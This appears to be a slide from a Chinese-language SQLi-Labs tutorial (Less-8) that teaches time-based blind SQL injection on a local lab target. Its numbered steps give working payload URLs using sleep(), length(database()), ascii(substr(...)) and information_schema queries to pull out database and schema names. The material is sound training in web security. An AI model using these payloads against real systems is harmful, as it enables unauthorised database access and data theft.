

# Less-8_01 法二  时间盲注
1. http://127.0.0.1/sqli/Less-8/?id=1‘ and sleep(5)--+ 使用延迟的方法判断是否存在注入漏洞。当然判断是否存在注入漏洞的方法很多。
2.  http://127.0.0.1/sqli/Less-8/?id=1‘ and if(length(database()) = 8,1,sleep(5))--+ 当为8的时候很快加载，而为其他值得时候加载较慢（5s左右），那就说明此时数据库的长度就是8（security）
3. http://127.0.0.1/sqli/Less-8/?id=1' and if(ascii(substr((select database()),1,1)) >113,1,sleep(5))--+如果当前数据库的第一个字母的ascii值大于113的时候，会立刻返回结果，否则执行5s。
4. http://127.0.0.1/sqli/Less-8/?id=1‘ and if(ascii(substr((select schema_name from information_schema.schemata limit 4,1),1,1))>112,1,sleep(5))--+ 同理判断数据库中的第5个数据库的第一位的ascii的值是不是大于112（实际中是115），如果是的则速度返回，否则延时5s返回结果。
5. 其余步骤与法一基本类似，可以采用burpsuite或者是sql盲注脚本使用。